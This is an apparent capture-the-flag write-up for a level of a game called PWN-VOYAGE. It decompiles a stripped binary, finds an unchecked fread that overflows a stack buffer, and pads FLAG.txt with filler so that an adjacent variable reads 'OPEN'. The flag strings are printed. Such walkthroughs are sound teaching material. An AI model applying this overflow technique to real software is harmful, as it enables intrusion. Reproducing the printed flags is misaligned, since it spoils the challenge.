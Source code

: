 # PWNVOYAGE / GAME / PWN-VOYAGE_L1

Finally, things get more interesting. With the `file` command, we can observe that the binary is stripped. Additionally, we are prompted for a file named **FLAG.txt** containing the flags from the previous level.

```

caigoshinobi@freyja:~$ file ./PWN-VOYAGE_L2
./PWN-VOYAGE_L2: ELF 64-bit LSB pie executable, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, BuildID[sha1]=cb162e623a468bace4baa7d427caa120424f421b, for GNU/Linux 3.2.0, stripped

caigoshinobi@freyja:~$ ./PWN-VOYAGE_L2

============================================================

 ██▓    ▓█████ ██▒   █▓▓█████  ██▓           ██▓ ██▓
▓██▒    ▓█   ▀▓██░   █▒▓█   ▀ ▓██▒          ▓██▒▓██▒
▒██░    ▒███   ▓██  █▒░▒███   ▒██░          ▒██▒▒██▒
▒██░    ▒▓█  ▄  ▒██ █░░▒▓█  ▄ ▒██░          ░██░░██░
░██████▒░▒████▒  ▒▀█░  ░▒████▒░██████▒      ░██░░██░
░ ▒░▓  ░░░ ▒░ ░  ░ ▐░  ░░ ▒░ ░░ ▒░▓  ░      ░▓  ░▓
░ ░ ▒  ░ ░ ░  ░  ░ ░░   ░ ░  ░░ ░ ▒  ░       ▒ ░ ▒ ░
  ░ ░      ░       ░░     ░     ░ ░          ▒ ░ ▒ ░
====░==░===░==░=====░=====░==░====░==░=======░===░==========
                    ░
You mercilessly annihilate a pair of bloodthirsty undead,
their pitiable forms disintegrating in the face of your
power. However, as you reach the very threshold of the Vault,
a discouraging sight awaits you: The Vault's door is veiled
in an enigmatic magical aura, a barrier challenging anyone
to enter... yet you charge ahead with all your might.

============================================================


------------------------------------------------------
| *FLAG.txt REQUIRED*                                |
|                                                    |
| Create the FLAG.txt file and insert the flags of   |
| the previous levels, one per line.                 |
------------------------------------------------------

```

After inserting the required file, we discover that Knight is attempting to break through the Vault door, which is flagged as **CLOSED**.

```

-$> Access Granted. Now let's pwn this f*cking door

-$> You give an almighty shove. The door is now CLOSED

-$> You are hurled backward by a spell from the ancient gates, compelled
    to retreat a few paces. The curses of defense begin to graze your armor,
    slowly dissolving the metal. Yet, the voice of your conscience continues
    to echo just one thing: Keep pushing.

```

We move on to the binary with dogbolt.org and try to make sense of it.

```

__int64 __fastcall main(int a1, char **a2, char **a3)
{
  char v4[304]; // [rsp+10h] [rbp-2D0h] BYREF
  char ptr[265]; // [rsp+140h] [rbp-1A0h] BYREF
  char haystack[135]; // [rsp+249h] [rbp-97h] BYREF
  FILE *v7; // [rsp+2D0h] [rbp-10h]
  FILE *stream; // [rsp+2D8h] [rbp-8h]

  sub_164E();
  strcpy(haystack, "CLOSED");
  stream = fopen("FLAG.txt", "r");
  if ( stream )
  {
    fread(ptr, 1uLL, 0x12CuLL, stream);
    fclose(stream);
    ptr[33] = 0;
    if ( (unsigned int)sub_151D(ptr) )
    {
      printf("-$> You give an almighty shove. The door is now %s\n", haystack);
      if ( strstr(haystack, "OPEN") )
      {
        v7 = fopen("FLAG.txt", "r");
        if ( v7 )
        {
          fread(v4, 1uLL, 0x12CuLL, v7);
          fclose(v7);
          sub_13EA(v4);
          return 0LL;
        }
        else
        {
          sub_14D8();
          return 1LL;
        }
      }
      else
      {
        puts(
          "\n"
          "-$> You are hurled backward by a spell from the ancient gates, compelled    \n"
          "    to retreat a few paces. The curses of defense begin to graze your armor,\n"
          "    slowly dissolving the metal. Yet, the voice of your conscience continues\n"
          "    to echo just one thing: Keep pushing.\n");
        return 1LL;
      }
    }
    else
    {
      return 0LL;
    }
  }
  else
  {
    sub_14D8();
    return 1LL;
  }
}

```

Some now we know that:

- The `haystack` variable is declared and initialized with the value **CLOSED** This variable represents the state of the Vault door.

- The program attempts to open the file named **FLAG.txt** in read mode using `fopen`. If successful, it reads the content of the file into the `ptr` array with `fread`, limited to 300 bytes. Then, it closes the file.

- If the `haystack` contains **OPEN** it proceeds to open the **FLAG.txt** file again, reads its content into the `v4` array, closes the file, and calls the `sub_13EA(v4)` function.

- The `sub_13EA` function takes a hexadecimal string and processes it to obtain the flag. 


We can also note a possible vulnerability in this code, primarily due to the use of `fread`. The reason is that `fread` reads data from the file without checking the size of the data compared to the size of the destination buffer, which can lead to a stack overflow if the read data exceeds the buffer's size.


If indeed we insert some A's inside FLAG.txt:

```

-$> Access Granted. Now let's pwn this f*cking door

-$> You give an almighty shove. The door is now AAAAAA


-$> You are hurled backward by a spell from the ancient gates, compelled
    to retreat a few paces. The curses of defense begin to graze your armor,
    slowly dissolving the metal. Yet, the voice of your conscience continues
    to echo just one thing: Keep pushing.

caigoshinobi@freyja:~$ cat FLAG.txt
NTRLGC{TH1SH1LLSM3LLSL1K3V1CT0RY}AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA

```

It works! So it's possible to insert the string **OPEN** inside the `haystack` variable:

```

caigoshinobi@freyja:~$ cat FLAG.txt
NTRLGC{TH1SH1LLSM3LLSL1K3V1CT0RY}AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAOPEN

caigoshinobi@freyja:~$ ./PWN-VOYAGE_L2

============================================================

 ██▓    ▓█████ ██▒   █▓▓█████  ██▓           ██▓ ██▓
▓██▒    ▓█   ▀▓██░   █▒▓█   ▀ ▓██▒          ▓██▒▓██▒
▒██░    ▒███   ▓██  █▒░▒███   ▒██░          ▒██▒▒██▒
▒██░    ▒▓█  ▄  ▒██ █░░▒▓█  ▄ ▒██░          ░██░░██░
░██████▒░▒████▒  ▒▀█░  ░▒████▒░██████▒      ░██░░██░
░ ▒░▓  ░░░ ▒░ ░  ░ ▐░  ░░ ▒░ ░░ ▒░▓  ░      ░▓  ░▓
░ ░ ▒  ░ ░ ░  ░  ░ ░░   ░ ░  ░░ ░ ▒  ░       ▒ ░ ▒ ░
  ░ ░      ░       ░░     ░     ░ ░          ▒ ░ ▒ ░
====░==░===░==░=====░=====░==░====░==░=======░===░==========
                    ░
You mercilessly annihilate a pair of bloodthirsty undead,
their pitiable forms disintegrating in the face of your
power. However, as you reach the very threshold of the Vault,
a discouraging sight awaits you: The Vault's door is veiled
in an enigmatic magical aura, a barrier challenging anyone
to enter... yet you charge ahead with all your might.

============================================================

-$> Access Granted. Now let's pwn this f*cking door

-$> You give an almighty shove. The door is now OPEN
D

-$> Flag: NTRLGC{H3LL0B1TCH3S!}


```